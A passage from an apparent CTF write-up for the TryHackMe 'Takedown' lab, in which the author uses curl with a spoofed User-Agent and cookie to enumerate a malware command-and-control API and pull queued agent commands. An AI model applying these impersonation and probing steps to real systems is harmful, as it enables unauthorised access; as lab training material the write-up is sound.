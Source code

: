 In `/api/agents/register`, it returns a 401 status, and says `You're not a live agent`.

Maybe it's checking if the user has a cookie or not...

**And think back, the `/api/agents` looks like a cookie:**
```json
{'okpj-pigz-ypeu-fwaf': 'www-infinity'}
```

**Let's supply that cookie to `curl`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -vv -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" --cookie "okpj-pigz-ypeu-fwaf=www-infinity" http://takedown.thm.local/api/agents/register
*   Trying 10.10.51.56:80...
* Connected to takedown.thm.local (10.10.51.56) port 80 (#0)
> GET /api/agents/register HTTP/1.1
> Host: takedown.thm.local
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
> Accept: */*
> Cookie: okpj-pigz-ypeu-fwaf=www-infinity
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 UNAUTHORIZED
< Server: nginx/1.23.1
< Date: Sun, 02 Oct 2022 04:43:58 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 23
< Connection: keep-alive
< Keep-Alive: timeout=20
< Access-Control-Allow-Origin: *
< 
* Connection #0 to host takedown.thm.local left intact
You're not a live agent
```

Hmm... **Maybe the `okpj-pigz-ypeu-fwaf` is the agent name??**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf    
Agent info:
UID: okpj-pigz-ypeu-fwaf - Hostname: www-infinity
```

Nice!!

**In the output of `strings` in `favicon.ico` PE file, I also found a `/command` page:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/command
hostname           

┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/command
pwd           

┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/command
upload bar.txt foo.txt  

┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
```